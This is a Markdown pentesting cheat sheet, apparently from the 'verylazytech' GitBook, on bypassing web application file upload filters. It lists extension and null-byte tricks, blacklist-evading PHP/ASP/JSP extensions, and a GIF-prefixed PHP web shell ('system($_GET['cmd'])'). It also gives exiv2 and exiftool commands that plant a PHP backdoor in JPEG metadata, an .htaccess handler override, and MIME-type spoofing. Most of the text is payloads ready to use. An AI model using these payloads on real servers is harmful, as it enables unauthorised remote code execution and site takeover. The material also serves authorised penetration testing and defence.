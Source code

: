 # File Upload Bypass

[![My Shop](https://img.shields.io/badge/My%20Shop-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech/extras)
[![Medium](https://img.shields.io/badge/Medium-%40verylazytech-%231572B6?style=flat&logo=medium&logoColor=white)](https://medium.com/@verylazytech)
[![Github](https://img.shields.io/badge/Github-verylazytech-%23181717?style=flat&logo=github&logoColor=white)](https://github.com/verylazytech)
[![Buy Me A Coffee](https://img.shields.io/badge/Buy%20Me%20A%20Coffee-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech)
[![My GitBook](https://img.shields.io/badge/My%20GitBook-VeryLazyTech-%23FFDD00?style=flat&logo=gitbook&logoColor=white)](https://www.verylazytech.com)
[![X](https://img.shields.io/twitter/url?url=https%3A%2F%2Fx.com%2Fverylazytech)](https://x.com/verylazytech)

## Basic

```
# Content-Type —> Change the parameter in the request header using Burp, ZAP etc.
# Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
# Changing letters to capital form file.aSp or file.PHp3
# Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
# Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
# Upload a file with 2 extensions—> file.php.jpg
# Use of null character—> file.asp%00.jpg
# Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
# Combination of the above
```

## Bypassing Blacklists

Blacklisting is a type of protection where certain strings of data, in many cases, specific extensions, are explicitly prohibited from being sent to the web app server.
```
#php phtml  --> .php, .php3, .php4, .php5, .php6, .pht, .pHp, .Php, .phP
#asp	       --> .asp, .aspx
#perl	     --> .pl, .pm, .cgi, .lib
#jsp	       --> .jsp, .jspx, .jsw, .jsv, and .jspf
#Coldfusion --> .cfm, .cfml, .cfc, .dbm
```

## Bypassing File Upload Restrictions
```
file.php -> file.jpg
file.php -> file.php.jpg
file.asp -> file.asp;.jpg
file.gif (contains php code, but starts with string GIF/GIF98 --> GIF89a; <?php system($_GET['cmd']); ?>) 
payload.php%00.jpg OR payload.php\x00.jpg
file.jpg with php backdoor in exif (see below)
.jpg -> proxy intercept -> rename to .php
```

## Injecting PHP into JPEG
```
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool "-comment<=back.php" back.png
```

## Uploading .htaccess to interpret .blah as .php
```
AddType application/x-httpd-php .blah
```

## MIME Type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type. Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```


